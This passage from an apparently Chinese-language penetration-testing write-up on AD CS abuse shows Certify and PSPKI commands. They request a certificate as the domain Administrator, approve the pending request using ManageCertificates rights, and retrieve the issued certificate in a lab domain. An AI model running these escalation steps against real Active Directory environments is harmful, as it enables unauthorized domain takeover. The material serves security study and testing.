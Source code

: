 如下图所示，我们通过 Certify 为 Administrator 用户申请证书，该请求随即被挂起，并得到此次请求的 Request ID 为 56，如下图所示。

```console
C:\Users\Marcus\Desktop> Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:ApproveReqTemplate /altname:PENTEST\Administrator
```

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/jWJbUhs6tPIT83v.png)

此时，我们利用当前用户所拥有的 ManageCertificates 权限，通过 PSPKI Cmdlet 对 Request ID 为 56 的注册请求予以批准，相关命令如下。如下图所示，证书注册请求被 “颁发”。

```powershell
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc01.pentest.com | Get-PendingRequest -RequestID 56 | Approve-CertificateRequest
```

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/6hfeIScAmklH5Rw.png)

然后再次通过 Certify 申请证书，并指定 Request ID 为 56，如下图所示，成功为 Administrator 用户注册到了 ApproveReqTemplate 模板的证书。

```console
C:\Users\Marcus\Desktop> Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /id:56
```

